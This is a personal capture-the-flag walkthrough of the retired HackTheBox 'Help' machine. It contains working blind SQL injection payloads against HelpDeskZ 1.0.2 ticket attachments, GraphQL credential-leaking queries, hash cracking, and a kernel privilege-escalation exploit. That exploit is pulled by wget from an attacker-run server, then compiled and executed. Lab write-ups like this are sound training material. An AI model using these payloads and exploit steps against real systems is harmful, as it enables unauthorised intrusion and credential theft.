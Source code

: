 ```yaml
---
tags:
  - HTB
  - Retired
  - Linux
  - graphql
  - api
  - KernelExploit
creation date: 2019-09-01
Date Completed: 2024-08-21
CVEs: 
URL: 
IP: 10.129.98.114
---
```

## Information Gathering

```
sudo nmap -sV -sC -sT -O -p- $IP
```
```
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e5:bb:4d:9c:de:af:6b:bf:ba:8c:22:7a:d8:d7:43:28 (RSA)
|   256 d5:b0:10:50:74:86:a3:9f:c5:53:6f:3b:4a:24:61:19 (ECDSA)
|_  256 e2:1b:88:d3:76:21:d4:1e:38:15:4a:81:11:b7:99:07 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18
|_http-title: Did not follow redirect to http://help.htb/
|_http-server-header: Apache/2.4.18 (Ubuntu)
3000/tcp open  http    Node.js Express framework
|_http-title: Site doesn't have a title (application/json; charset=utf-8).
```

### Port 80
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-files.txt:FUZZ -u http://help.htb/FUZZ -c
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-directories.txt:FUZZ -u http://help.htb/FUZZ -c
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-110000.txt:FUZZ -u http://help.htb -H "HOST: FUZZ.help.htb" -c

/support/readme.html
    Helpdeskz Version: 1.0.2 from 1st June 2015
/support/captcha.php
/support/index.php
    http://help.htb/support/?v=submit_ticket
/support/LICENSE.txt
/support/

### Port 3000

```
POST /graphql HTTP/1.1
Host: help.htb:3000
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
DNT: 1
Connection: close
Cookie: PHPSESSID=1a24b2irvu2974cpm9ver6h573
Upgrade-Insecure-Requests: 1
Sec-GPC: 1
If-None-Match: W/"51-gr8XZ5dnsfHNaB2KgX/Gxm9yVZU"
Content-Type: application/*json*
Content-Length: 62


query {
  users {
    id
    username
    role
  }
}
```
https://stackoverflow.com/questions/59200152/graphql-post-body-missing-did-you-forget-use-body-parser-middleware
https://cheatsheetseries.owasp.org/cheatsheets/GraphQL_Cheat_Sheet.html#access-control

+++ More research into GraphQL and API testing +++
https://cardano.stackexchange.com/questions/282/hasura-graphql-playground-throws-get-query-missing-400-status-code-response

Getting errors but useful errors with this:
GET /graphql?query={user{username}}
GET /graphql?query={user{password}}

helpme@helpme.com
godhelpmeplz

++++ This does not work ++++
https://www.exploit-db.com/exploits/40300
exploit.py http://10.129.228.86/support/ phpshell.php

# Foothold


1. Submit a ticket with a standard image attachment
2. Go to view your ticket, copy the link to your image attachment and navigate to it 
example: http://help.htb/support/?v=view_tickets&action=ticket&param[]=5&param[]=attachment&param[]=2&param[]=7

3. Test it for SQLi... 

example: http://help.htb/support/?v=view_tickets&action=ticket&param[]=5&param[]=attachment&param[]=2&param[]=7+and+1=1+--+-

4. Do some injecting to confirm the user the app runs as is admin

GET /support/?v=view_tickets&action=ticket&param[]=5&param[]=attachment&param[]=2&param[]=7+and+(select+(username)+from+staff+limit+0,1)+=+'admin'+--+-

The key is IF the image returns that means your query is TRUE. IF the image (or whatever your attachment was) does not return that means your query if FALSE.

5. Now we gotta figure out the password... this is where it gets complicated because you can only do it one letter at a time :(

GET /support/?v=view_tickets&action=ticket&param[]=5&param[]=attachment&param[]=2&param[]=7+and+substr((select+password+from+staff+limit+0,1),1,1)+=+'§a§'+--+- 

Use Burp Intruder to figure out what it is or use the script from the walkthrough haha
creating the intrudor payload
printf '%s \n' {0..9}; echo
printf '%s \n' {a..z}; echo
printf '%s \n' {A..Z}; echo
or https://github.com/fuzzdb-project/fuzzdb/blob/master/wordlists-misc/wordlist-alphanumeric-case.txt

you also have to adjust the character its looking at using substr
example:
substr((select+password+from+staff+limit+0,1),1,1)+=+'§a§'+--+- 
substr((select+password+from+staff+limit+0,1),2,1)+=+'§a§'+--+- 
substr((select+password+from+staff+limit+0,1),3,1)+=+'§a§'+--+- 

d318f44739dced6679
d318f44739dced66793b1a603028133a76ae680e

NOTE: The script provided in the walkthrough is trash. I used gemini to modify it so it actually works. However, even that isn't working... Seems just manual bruteforce with Burp would have been better...

hashcat -m 100 d318f44739dced66793b1a603028133a76ae680e ~/rockyou.txt
Welcome1

5. Gotta do the same shit to enumerate the use :(

I aint doing that shit since none of the scripts work. I would have to do everything with burp and I dont wanna...

Also, it litterally provides nothing. We still have to "guess" the ssh username... which is "help". Which coinsidentialy is NOT in xato-top-10-million WTF... but it is in xato-net-10-million-usernames-dup.txt... whyyyyyyyyyy

ssh help@10.129.228.86

# Priv Esc
uname -a 
4.4.0-116-generic

searchsploit 4.4.0-116-generic
searchsploit -m 44298
python3 -m http.server
wget http://10.10.15.64:8000/44298.c

gcc 44298.c -o exploit
./exploit

whoami
cd /root
cat root.txt


Notes:
the foothold on this sucked so bad. not sure how they call that "easy". the priv esc was stupid easy though. without the walkthough it would have taken me a bit longer but i would have gotten there eventually...







